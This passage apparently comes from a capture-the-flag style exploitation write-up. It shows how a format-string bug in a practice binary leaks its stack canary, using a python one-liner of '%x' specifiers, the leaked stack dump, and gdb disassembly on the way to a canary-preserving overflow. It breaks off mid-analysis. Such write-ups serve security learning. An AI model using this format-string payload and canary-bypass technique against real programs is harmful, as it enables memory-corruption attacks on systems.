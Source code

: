 ```
   0x0804850e <+3>: sub    esp,0x1f8
   0x08048514 <+9>: mov    eax,gs:0x14
   0x0804851a <+15>:  mov    DWORD PTR [ebp-0xc],eax
```

So the stack canary is stored at least 0x1f8 (506) bytes down the stack. We will be reading the data in 4 byte segments, so we can read the 506 bytes in 126 DWORDS. We should push it to 130 because the stack canary is probably beyond that. Let's try it.

```
$	python -c 'print "%x."*130' | ./d0 
1e8.f7faf5a0.f7fefef9.25000070.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.a2e.f7e8d54b.ffffcffe.ffffd0fc.e0.0.f7ffd000.f7ffd918.ffffd000.80482b3.0.ffffd094.f7faf000.3d57.ffffffff.2f.f7e09dc8.f7fd5858.8000.f7faf000.f7fad244.f7e150ec.1.7.f7e2ba50.fbc09000.1.ffffd0f4.ffffd048.
```

So we can see here, the stack canary for this instance was 0xfbc09000, and located 127 DWORDS down the stack. If you run it multiple times, you see that it changes for each instance which is expected. In addition to that we can see that the least significant bit is a null byte (\x00) which is a characteristic of stack canaries. Now that we have the stack canary, let's figure out how far it is from the start of the buffer overflow so we can write over it. For that we will use gdb. 

```
gdb-peda$ disas revelation
Dump of assembler code for function revelation:
   0x0804850b <+0>: push   ebp
   0x0804850c <+1>: mov    ebp,esp
   0x0804850e <+3>: sub    esp,0x1f8
   0x08048514 <+9>: mov    eax,gs:0x14
   0x0804851a <+15>:  mov    DWORD PTR [ebp-0xc],eax
   0x0804851d <+18>:  xor    eax,eax
   0x0804851f <+20>:  mov    eax,ds:0x804a040
   0x08048524 <+25>:  sub    esp,0x4
   0x08048527 <+28>:  push   eax
   0x08048528 <+29>:  push   0x1e8
   0x0804852d <+34>:  lea    eax,[ebp-0x1f5]
   0x08048533 <+40>:  push   eax
   0x08048534 <+41>:  call   0x80483c0 <fgets@plt>
   0x08048539 <+46>:  add    esp,0x10
   0x0804853c <+49>:  sub    esp,0xc
   0x0804853f <+52>:  lea    eax,[ebp-0x1f5]
   0x08048545 <+58>:  push   eax
   0x08048546 <+59>:  call   0x80483a0 <printf@plt>
   0x0804854b <+64>:  add    esp,0x10
   0x0804854e <+67>:  nop
   0x0804854f <+68>:  mov    eax,DWORD PTR [ebp-0xc]
   0x08048552 <+71>:  xor    eax,DWORD PTR gs:0x14
   0x08048559 <+78>:  je     0x8048560 <revelation+85>
   0x0804855b <+80>:  call   0x80483d0 <__stack_chk_fail@plt>
   0x08048560 <+85>:  leave  
   0x08048561 <+86>:  ret    
End of assembler dump.
gdb-peda$ b *revelation+64
Breakpoint 1 at 0x804854b
gdb-peda$ disas pivot
Dump of assembler code for function pivot:
```